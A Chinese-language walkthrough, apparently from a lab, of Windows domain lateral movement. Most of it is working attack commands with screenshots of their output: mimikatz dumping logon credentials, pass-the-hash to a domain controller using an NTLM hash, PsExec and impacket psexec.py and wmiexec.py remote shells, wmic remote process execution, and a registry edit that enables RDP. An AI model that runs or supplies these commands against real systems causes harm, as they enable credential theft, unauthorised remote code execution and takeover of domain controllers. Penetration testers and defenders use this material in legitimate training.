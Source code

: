 #### 使用 mimikatz 进行 PTH

```shell
privilege::debug     		# 提升至调试（debug）权限
sekurlsa::logonpasswords 	# 查看所有可用的凭证
```

![image-20230307161642381](https://s2.loli.net/2023/03/11/WPhpaI1dLZQb59V.png)

获取到域管理员的 NTLM Hash。

```shell
# sekurlsa::pth /user:用户名 /domain:域名或者域控IP /ntlm:用户的NTLM Hash
sekurlsa::pth /user:administrator  /domain:192.168.12.137  /ntlm:1a296f3df9faa85df937b42fc3e534f3
```

在弹出的cmd中连接

```shell
dir \\192.168.219.144\c$    # 查看DC的C盘
```

![image-20230307162430577](https://s2.loli.net/2023/03/11/y8BrwbSPMk5p7Kq.png)



#### 使用 PsExec 进行横向移动

当知道域用户密码，可以使用 PsExec.exe 与对应主机建立启动交互式命令。

如下，在win7 上执行成功连接至dc。

```shell
PsExec.exe /accepteula /s \\192.168.12.137 -u Administrator -p root@123 cmd
```

![image-20230307163205468](https://s2.loli.net/2023/03/11/1sUedZixcPrL9mh.png)

也可以直接执行命令

```shell
PsExec.exe /accepteula /s \\192.168.12.137 -u Administrator -p root@123 cmd /c "ipconfig"
```

还可以使用 impacket 工具包的 psexec.py 脚本进行利用，这里展示通过 hash 的方式认证。

```shell
find / -name psexec.py
/usr/share/set/src/fasttrack/psexec.py
/usr/share/doc/python3-impacket/examples/psexec.py

cp /usr/share/doc/python3-impacket/examples/psexec.py /tmp/psexec.py
```

```shell
python3 /tmp/psexec.py -hashes 1111:1a296f3df9faa85df937b42fc3e534f3 ./Administrator@192.168.12.137
```

![image-20230307164059851](https://s2.loli.net/2023/03/11/xYkO9HGw6XcLsMI.png)



#### 使用 wmic 进行横向移动

##### 1、Windows 自带的 wmic

这里在 win7 上使用 wmic 在 DC 上远程执行 ipconfig 并将内容输出到DC的 c:\ip.txt 

```shell
wmic /node:"192.168.12.137" /user:"administrator" /password:"root@123" process call create "cmd.exe /c ipconfig > c:\ip.txt"
```

而后再构建 ipc$ 管道，产看DC上的 ip.txt。

```shell
net use \\192.168.12.137\ipc$ "root@123" /user:"administrator"
type \\192.168.12.137\c$\ip.txt
```

![image-20230307164848848](https://s2.loli.net/2023/03/11/PqKsFA4O3fDeUJt.png)



```shell
# 适于 Windows xp、server 2003
wmic /node:"192.168.12.137" /user:"administrator" /password:"root@123" PATH win32_terminalservicesetting WHERE (__Class!="") CALL SetAllowTSConnections 1 

wmic /node:"192.168.12.137" /user:"administrator" /password:"root@123" RDTOGGLEWHERE ServerName='dc' call SetAllowTSConnections 1

# 或者

wmic /node:192.168.0.123 /user:administrator /password:123456 process call create 'cmd.exe /c REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\T

erminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f'
```



##### 2、wmiexec.py 的使用

这里也可以用 impacket 工具包的 wmiexec.py 脚本进行利用，创建交互式命令行。

```shell
find / -name wmiexec.py
/usr/lib/python3/dist-packages/cme/protocols/smb/wmiexec.py
/usr/share/metasploit-framework/modules/auxiliary/scanner/smb/impacket/wmiexec.py
/usr/share/doc/python3-impacket/examples/wmiexec.py

cp /usr/share/doc/python3-impacket/examples/wmiexec.py /tmp/wmiexec.py
```

```shell
python3 /tmp/wmiexec.py administrator:root@123@192.168.12.137
```

![image-20230307170010194](https://s2.loli.net/2023/03/11/GWTy7wSLhOkDXta.png)

或者使用 hash 直接执行命令。

```shell
python3 /tmp/wmiexec.py -hashes 1111:1a296f3df9faa85df937b42fc3e534f3 Administrator@192.168.12.137 "whoami"
```

![image-20230307170223952](https://s2.loli.net/2023/03/11/9WCIyFsQ4GP5ZaH.png)

##### 3、wmiexec.vbs

 wmiexec.vbs脚本通过VBS调用WMI来模拟PsExec的功能。其可以在远程系统中执行命令并进行回显，或者获取远程主机的交互式Shell。

```shell
cscript //nologo wmiexec.vbs /shell 192.168.12.137 administrator root@123
```

![image-20230307170552251](https://s2.loli.net/2023/03/11/fM5cZsYBl6veJVR.png)

```
cscript //nologo wmiexec.vbs /cmd 192.168.12.137 administrator root@123 "whoami"
```

![image-20230307170855774](https://s2.loli.net/2023/03/11/p2nruobIlLYXW8R.png)